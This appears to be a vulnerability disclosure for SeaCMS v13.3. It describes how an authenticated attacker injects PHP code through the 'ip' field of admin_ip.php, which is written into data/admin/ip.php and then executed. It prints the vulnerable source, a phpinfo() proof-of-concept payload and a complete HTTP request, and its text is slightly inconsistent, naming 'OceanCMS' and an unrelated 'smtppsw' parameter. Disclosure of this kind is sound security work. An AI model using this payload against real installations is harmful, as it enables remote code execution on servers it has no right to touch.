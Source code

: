 ## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_ip.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Debugging Analysis and Vulnerability Exploitation  
The latest version of OceanCMS (v13.3) contains a command execution vulnerability.  
The vulnerable file is `0omeqd/admin_ip.php`, where PHP code concatenation is used, and is eventually written to the file `data/admin/ip.php`.  

```php
<?php 
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
	$v= $_POST['v'];
	$ip = $_POST['ip'];
	$open=fopen("../data/admin/ip.php","w" );
	$str='<?php  ';
	$str.='$v = "';
	$str.="$v";
	$str.='"; ';
	$str.='$ip = "';
	$str.="$ip";
	$str.='"; ';
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
	ShowMsg("Settings saved successfully!","admin_ip.php");
	exit;
}
```

The web page in the backend management contains the system's mail server settings. We click "Confirm" and intercept the request.

We pass the parameter `smtppsw` and concatenate PHP code. The PoC is:  
```r
127.0.0.1";phpinfo();$a="1
```
The complete HTTP request is as follows:

```
POST /0omeqd/admin_ip.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_ip.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

v=0&ip=+127.0.0.1%22%3Bphpinfo%28%29%3B%24a%3D%221
```
![Image1](./public/2-1.png)  
Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
![Image1](./public/2-3.png)  

After accessing the PHP path, the PHP code executes successfully.  
```r
data/admin/ip.php
```

![Image2](./public/2-2.png)